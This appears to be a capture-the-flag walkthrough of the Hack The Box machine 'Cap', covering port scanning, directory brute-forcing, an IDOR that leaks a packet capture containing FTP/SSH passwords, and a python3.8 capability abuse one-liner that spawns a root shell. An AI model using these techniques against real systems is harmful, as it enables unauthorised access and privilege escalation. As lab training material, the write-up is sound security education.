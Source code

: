 ```yaml
---
title: Cap
published: 2025-08-27
description: ' Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures.'
image: ''
tags: ['Linux','Web','Exploit','Privsec']
category: 'HTB'
draft: false 
---
```


## Enumeration
> - Lets use nmap :
```shell
# Nmap 7.97 scan initiated Wed Aug 27 09:32:30 2025 as: nmap -sCV -A -T4 -o nmap.txt 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
> - Now we need to use brute forcing Directory With `Gobuster`:
```shell
❯❯ gobuster dir -u 10.10.10.245 -w /usr/share/Wordlists/dirb/common.txt 
===============================================================
Gobuster v3.7
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.245
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/Wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.7
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17462]
/netstat              (Status: 200) [Size: 33068]
```

## Exploitation

> - i found folder `data` but i have prblm , i searching for PCAP file that contains sensative data .
> - i try change id data to `0` , This Vuln is `IDOR` .

![data](./Cap-Images/data.jpg)

> - After download File PCAP , i can open this file in `Wireshark` Tool :
![PCAP](./Cap-Images/pcap.jpg)

- Great !! i found a password of `FTP` & `SSH`

## Privilege Escalation

> - Now im runing Tool `linPEAS` , i found a faibless in `/usr/bin/python3.8`
> - So, i put this Malicios Code : `/usr/bin/./python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
```shell
nathan@cap:~$ /usr/bin/./python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cd /root
# ls -la
total 36
drwx------  6 root root 4096 Aug 26 22:24 .
drwxr-xr-x 20 root root 4096 Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 May 23  2021 .cache
drwxr-xr-x  3 root root 4096 May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 May 23  2021 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Aug 26 22:24 root.txt
drwxr-xr-x  3 root root 4096 May 23  2021 snap
```